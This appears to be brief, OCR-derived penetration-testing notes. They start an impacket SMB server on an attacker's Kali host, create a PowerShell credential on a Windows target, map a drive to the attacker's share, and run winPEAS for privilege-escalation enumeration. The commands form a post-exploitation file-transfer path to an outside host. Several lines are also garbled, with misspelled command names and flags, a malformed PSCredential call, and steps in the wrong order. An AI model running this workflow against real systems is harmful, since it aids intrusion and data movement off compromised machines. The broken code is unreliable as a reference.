 # Start SMB Server
```
impacket-smserver 'sharename' $(pwd) -smb2support -user username -password password
```

# Create username and password on Win
create user
```
$cred = New-Object System.Management.Automation.PSCredential()'ippsec', $pass)
```
create password
```
$pass = ConverTo-SecureString 'password' -AsPlaintText -force
```
attach the smb server driver

```
New-PSDrive -Name user -PSProvider Filesystem -Credential $cred -Root \\ipaddressofkali\Sharename
```

# Run WInpeas
.\winpeas.exe
